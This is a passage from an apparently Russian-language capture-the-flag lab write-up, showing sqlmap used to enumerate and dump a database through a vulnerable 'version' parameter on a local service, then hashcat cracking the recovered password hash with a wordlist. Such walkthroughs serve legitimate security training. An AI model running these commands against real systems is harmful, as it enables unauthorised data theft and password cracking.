 ```
sqlmap -u http://localhost:8081/version?version=0.0.2 --batch -dbs
```

![](5.png)

![](../assets/Soccer/5.png)

Sqlmap успешно отработал. Попробуем вытащить пользовательские данные.

```
sqlmap -u http://localhost:8081/version?version=0.0.2 --batch -dump
```

![](6.png)

![](../assets/Soccer/6.png)

Мы получили хэш пароля пользователя.

Раскодируем хэш, используя hashcat.

```
hashcat -m 0 hash --wordlist /usr/share/wordlists/rockyou.txt
```

![](7.png)

![](../assets/Soccer/7.png)
